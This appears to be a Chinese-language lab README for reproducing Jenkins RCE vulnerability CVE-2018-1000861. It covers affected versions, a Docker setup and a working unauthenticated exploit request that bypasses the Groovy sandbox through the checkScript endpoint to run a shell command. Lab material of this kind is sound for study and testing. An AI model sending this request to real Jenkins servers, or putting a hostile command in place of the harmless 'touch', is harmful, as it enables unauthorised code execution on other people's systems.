 # Jenkins 远程代码执行漏洞（CVE-2018-1000861）

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.153 及更早版本，LTS 2.138.3 及更早版本存在未授权的远程代码执行漏洞。在 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，攻击者可以通过访问构造的 URL 路径来调用 Java 对象上的某些方法，而这些路径原本并不是设计用来这样调用的。

在这个漏洞中，可以发现多个可利用的攻击链。其中最严重的是通过绕过 Groovy 沙盒导致未授权用户可执行任意命令：Jenkins 在沙盒中执行 Groovy 脚本之前会先检查语法错误，这个检查过程是在沙盒之外进行的，攻击者可以通过元编程（Meta-Programming）的方式在这个验证步骤中执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动 Jenkins 2.138，相关的漏洞插件已预先安装：

```
docker compose up -d
```

等待服务器完全启动后，访问 `http://your-ip:8080` 即可看到 Jenkins 已成功运行，无需进行任何手动安装。

## 漏洞复现

使用 @orangetw 提供的[一键化 POC 脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![发送漏洞利用请求](2.png)

`/tmp/success` 文件的成功创建证实了远程代码执行漏洞的存在：

![命令执行验证](3.png)
